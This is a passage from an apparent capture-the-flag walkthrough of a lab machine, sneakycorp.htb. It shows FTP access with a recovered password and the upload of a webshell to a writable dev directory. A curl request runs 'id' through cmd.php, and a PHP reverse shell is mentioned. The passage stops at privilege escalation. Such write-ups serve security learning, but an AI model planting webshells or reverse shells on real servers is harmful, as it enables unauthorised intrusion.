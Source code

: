 It seems that we have found a password. Still doesn't work with SSH, but it does with the FTP server. There's a `dev` directory present here. When checking the files present, we notice that this has the same `team.php` file as the website.

```
ftp> ls -la
229 Entering Extended Passive Mode (|||15445|)
150 Here comes the directory listing.
drwxrwxr-x    8 0        1001         4096 Jun 30  2020 .
drwxr-xr-x    3 0        0            4096 Jun 23  2020 ..
drwxr-xr-x    2 0        0            4096 May 26  2020 css
drwxr-xr-x    2 0        0            4096 May 26  2020 img
-rwxr-xr-x    1 0        0           13742 Jun 23  2020 index.php
drwxr-xr-x    3 0        0            4096 May 26  2020 js
drwxr-xr-x    2 0        0            4096 May 26  2020 pypi
drwxr-xr-x    4 0        0            4096 May 26  2020 scss
-rwxr-xr-x    1 0        0           26523 May 26  2020 team.php
drwxr-xr-x    8 0        0            4096 May 26  2020 vendor
```

Also, we have write permissions over this directory. We can try to place a webshell here and see if it gets uploaded onto the main website itself.&#x20;

This doesn't get uploaded to `sneakycorp.htb`, but it does get uploaded to `dev.sneakycorp.htb`.&#x20;

```
$ curl http://dev.sneakycorp.htb/cmd.php?cmd=id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

We now have RCE and can get an easy reverse shell by putting a PHP Reverse Shell within the website files:

<figure><img src="../../../.gitbook/assets/image (187) (2).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### PyPI

There are a couple of users present on the machine:
